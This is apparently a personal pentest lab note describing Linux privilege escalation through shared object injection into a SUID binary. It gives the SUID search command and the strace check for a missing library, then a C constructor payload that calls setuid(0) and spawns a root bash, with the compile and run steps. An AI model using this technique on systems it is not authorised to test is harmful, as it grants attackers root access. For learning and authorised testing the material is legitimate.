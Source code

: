 ```yaml
---
category: Uncategorized
tags: [pentest]
created: 2024-12-21

---
```

When a program is executed, it will try to load the shared objects it requires.

By using a program called strace , we can track these system calls and determine whether any shared objects were not found.

If we can write to the location the program tries to open, we can create a shared object and spawn a root shell when it is loaded.

1. Find SUID/SGID files on the target:

```bash - target
find / -type f -a \( -perm -u+s -o -perm -g+s \) -exec ls -l {} \; 2> /dev/null
```

==-rwsr-sr-x 1 root staff 9861 May 14 2017 /usr/local/bin/suid-so==

The suid-so file should execute with root user permissions.

2. Run strace on the SUID file:
```bash - target
strace /usr/local/bin/suid-so 2>&1 | grep -iE "open|access|no such file"
```

access("/etc/suid-debug", F_OK) = -1 ENOENT (No such file or directory)
==open("/home/user/.config/libcalc.so", O_RDONLY) = -1 ENOENT (No such file or directory)==

The libcalc.so shared object could not be found, and the program is looking in our user’s home directory, which we can write to.

3. Create the /home/user/.config directory.

4. Create the file libcalc.c with the following contents:

==libcalc.c==

---

```c - target
#include <stdio.h>
#include <stdlib.h>

static void inject() __attribute__((constructor));

void inject() {
 setuid(0);
 system("/bin/bash -p");
 # system("cp /bin/bash /tmp/bash && chmod +s /tmp/bash && /tmp/bash -p");
}
```


---

5. Compile libcalc.c into /home/user/.config/libcalc.so:

```bash - target
gcc -shared -fPIC -o /home/user/.config/libcalc.so libcalc.c
```

6. Run the SUID executable to get a root shell:

```bash - target
/usr/local/bin/suid-so
```

Calculating something, please wait…

```bash - target
id
```

>uid=0(root) gid=1000(user) egid=50(staff) groups=0(root) ...


Last updated: `$= dv.current().file.mtime.toFormat("MMMM dd, yyyy 'at' HH:mm")`
